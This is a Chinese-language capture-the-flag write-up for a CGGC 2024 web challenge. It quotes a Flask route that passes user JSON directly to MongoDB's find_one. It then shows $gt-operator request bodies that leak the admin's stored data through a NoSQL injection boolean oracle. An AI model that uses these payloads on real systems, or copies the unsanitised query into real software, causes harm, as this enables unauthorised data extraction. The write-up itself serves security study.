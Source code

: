 # cggc final 2024

## 💉 SQLi Payload Generator

Category: Web
Solves: 8/12


這題的服務是給一個 SQL injection Payload 生成的網站，並且可以記錄已經生成的 Payload 的歷史記錄，並且能夠把歷史記錄內的 Payload 加入我的最愛。

整體程式是透過 mongodb 作為資料庫，可以看到以下的程式碼片段，可以發現直接將 `requests.json.get("history_id")` 拿去 `history_collection.find_one`，因此我們可以進行 NoSQL Injection

```python
@app.route("/favorite", methods=["POST"])
def toggle_favorite():
    if "username" not in session:
        return jsonify({"error": "Unauthorized"}), 401

    data = request.json
    history_id = data.get("history_id")

    if not history_id:
        return jsonify({"error": "History ID required"}), 400

    history_item = history_collection.find_one(history_id)

    if not history_item:
        return jsonify({"error": "History not found"}), 404

    current_status = history_item.get("favorite", False)
    history_collection.update_one(
        {"_id": history_item.get("_id")}, {"$set": {"favorite": not current_status}}
    )

    return jsonify({"message": "Favorite status updated successfully"})
```


構造如下的 requests 會回傳 `{"error":"History not found"}`

```json
{
    "history_id": {
        "username": "admin",
        "generated_payload": {"$gt": "D"},
    }
}
```

構造如下的 requests 會回傳 `{"message":"Favorite status updated successfully"}`

```json
{
    "history_id": {
        "username": "admin",
        "generated_payload": {"$gt": "B"},
    }
}
```
